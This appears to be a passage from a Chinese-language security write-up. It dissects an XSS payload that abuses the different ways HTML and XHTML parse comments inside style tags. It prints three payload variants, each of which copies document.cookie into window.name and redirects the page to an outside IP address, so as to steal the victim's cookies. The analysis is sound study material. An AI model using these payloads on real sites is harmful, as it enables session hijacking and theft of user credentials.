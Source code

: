 第三個看起來跟第一個類似，但第一個簡單許多，是這樣的：

``` html
ff<style><!--</style><a id="--><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base><!--"></a><style>&lt;k</style><style>--></style>
```

以 HTML 來說就是一個 style + a tag + 兩個 style tag。但是以 xhtml 來說的話，會把 style 裡的 `<!-- -->` 也看作是註解，因此會變成：

 ``` html
ff<style><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base></style>
```

從他想達成的效果來看，應該簡化成這樣也可以：

``` html
ff<style><!--</style><a id="--><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base><!--"></a><style>--></style>
```

